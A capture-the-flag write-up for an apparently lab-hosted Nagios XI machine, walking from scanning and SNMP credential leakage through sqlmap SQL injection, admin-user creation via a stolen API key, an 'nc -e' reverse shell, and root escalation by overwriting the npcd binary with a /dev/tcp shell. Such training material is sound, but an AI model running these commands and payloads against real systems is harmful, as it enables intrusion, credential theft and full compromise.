Machine IP: 10.10.11.248

## Scanning

### Nmap - TCP

```
sudo nmap -sC -sV -oA monitored_scan 10.10.11.248
```



### Rustscan

```
rustscan -a 10.10.11.248 --ulimit 5000 -- -A
```




### UDP

```
sudo nmap -sU --min-rate 5000 10.10.11.248
```



SNMP port is open

## Enumeration

Enumerating port 80/ 443 <br />

Got redirected to nagios.monitored.htb <br />


Add Ip address to /etc/hosts


Now we get a Nagios XI home page


Clicking on the Access button, we got directed to a login page


We can try bypass login by SQL injection, weak default credentials (nagios:nagios, admin:admin, admin:password, admin:nagios) br />

Proceed to File and directory Bruteforcing

URL from Login page:

```
https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1
```

### File and Directory Bruteforce

```
export URL="https://nagios.monitored.htb/nagiosxi/FUZZ"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
```



Directory Bruteforce

```
export URL="https://nagios.monitored.htb/nagiosxi/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"
```



We will also use dirsearch and ffuf, just to cover more grounds. <br />

### Dirsearch

```
dirsearch -u https://nagios.monitored.htb/nagiosxi -e php,js,html,txt,bak,zip
```



### ffuf

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u https://nagios.monitored.htb/nagiosxi/FUZZ -recursion -e .txt,.php,.html,.bak,.jar,.war,.backup,._backup -fw 20
```

The /backend directory, we get an Authentication Failure error

We need to obtain some auth credentials

Go to the /terminal directory which we discovered from our wfuzz scan. We see a login terminal panel (Sheel In A Box), which times out after 60 seconds.


Going to the /api directory, we get 'No request was made' error

It expects us to make a request. Going to the /nagiosxi/api/v1/ directory

An API key is needed. So now we can look for the API key. We still have the SNMP port to enumerate <br />
Let's see the SNMP Enumeration. Using snmpwalk

### SNMP Enumeration

```
snmpwalk -v2c -c public 10.10.11.248
```



```
snmpwalk -v2c -c public 10.10.11.248 1.3.6.1.2.1.25.4.2.1.5
```



This looks like host.sh script is running with credentials

```
svc : XjH7VCehowpR1xZB
```

Port 22 is open. Credentials did not work for port 22. So, need to try it on our /api endpoint

Sometimes, we need to proceed to do a dir bruteforce on the /api endpoint

```
dirsearch -u https://nagios.monitored.htb/nagiosxi/api/v1/ -e php,js,html,txt,bak,zip
```



We have a new /authenticate endpoint


The /authenticate endpoint requires us to authenticate using a POST request. In this case We can do this using the curl:

```
curl -X POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -k -L -d 'username=svc&password=XjH7VCehowpR1xZB'
```


Some details about sending POST request with curl: https://reqbin.com/req/c-2cd3jxee/curl-post-with-basic-authentication-example <br/>
Now we have obtained an auth token. It refreshes pertime:

```
33802cf3a689cdba1ceaf97844a2548d4522201b
```

Dont quie have any idea about how this can be used for Auth Bypass. Anyways, we go back to what we know: <br />

- We are working on NagiosXI monitoring system hosted on debian.
- It has an SNMP open port
- We have an auth token.

Since we have enumerated throughly, let's look for public known exploit associated with NagiosXI.

This exploit.db page shows multiple vulnerabilities ass with NagiosXI https://www.exploit-db.com/exploits/39899
Going through each of the vulnerabilities. Most of what jumps at us is SQL injection vulnerability.
I found this page: https://github.com/advisories/GHSA-67j9-xc8r-7vqm



We get a session time out. It obviously needs the auth credentials and token. So we need to figured out how to exp this vulnerability. We have the CVE-2023–40931. Let's search.

We have something like: https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3
We can use sqlmap.

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" -p id
```

It is an authenticated exploit so we need to add the token param.

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=edb86549b9efd8635a6712ed52daa56a26e00118" -p id
```


We have a MySQL db. Do proceed to show database, then dump.

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=49aba97f10e6c6472e8942438391811bd6cfef96" -p id --level=5 --risk=3 --dbs
```

I added level and risk flag because I kept getting 'unable to retrieve the database names' error.


DB: nagiosxi

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=d420fd43a28d16ad08b79c26656f6c45e6219db1" -p id --level=5 --risk=3 -D nagiosxi --tables
```



```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=3caec45518af0cdbb4ab9726ad81c01f7fa788ad" -p id --level=5 --risk=3 -D nagiosxi -T xi_users  --dump
```



### Creds:

- admin@monitored.htb
- password hash: $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C
- username: nagiosadmin
- api_key: IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL

- svc@monitored.htb
- password hash: $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK
- username: svc
- api_key

We cannot crack the hash but we can use the API key of the adin user to create a new admin user

```
curl -POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=secjedi&password=secjedi&name=secjedi&email=secjedi@monitored.htb&auth_level=admin"
```



New password: qZykMnHFz6~7J6&



Goto: Configure > Core Config Manager > Commands > Add New



Payload

```
nc -e /bin/bash 10.10.16.31 1234
```

Goto: Monitor > Services> Add New

Run Commands


We're in!!!


Stabilize shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Find user flag:

```
find / -name user.txt 2>&1 | grep -v 'Permission denied'
```



### Privilege Escalation

```
nagios@monitored:~$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

Let's look at the manage service script:

```
/usr/local/nagiosxi/scripts/manage_services.sh
```

We see that the script manages services. Let's work with the npcd service. First we stop the service, then check the status so we can find he location of the systemd file.

```
sudo ./manage_services.sh stop npcd
sudo ./manage_services.sh status npcd
```



Notice that the execution is coming from: /usr/local/nagios/bin/npcd, which also has user right permissions.
now we remove then replace the npcd service with our payload.

```
rm /usr/local/nagios/bin/npcd
touch /usr/local/nagios/bin/npcd
chmod +x /usr/local/nagios/bin/npcd
echo '#!/bin/bash' > /usr/local/nagios/bin/npcd
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.31/1235 0>&1'" >> /usr/local/nagios/bin/npcd
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd

```

Start listener on another terminal and we receive a root shell


## Lesson Learned

- Don't forget UDP Scans
- Don't forget further directory bruteforce when you see /api endpoint
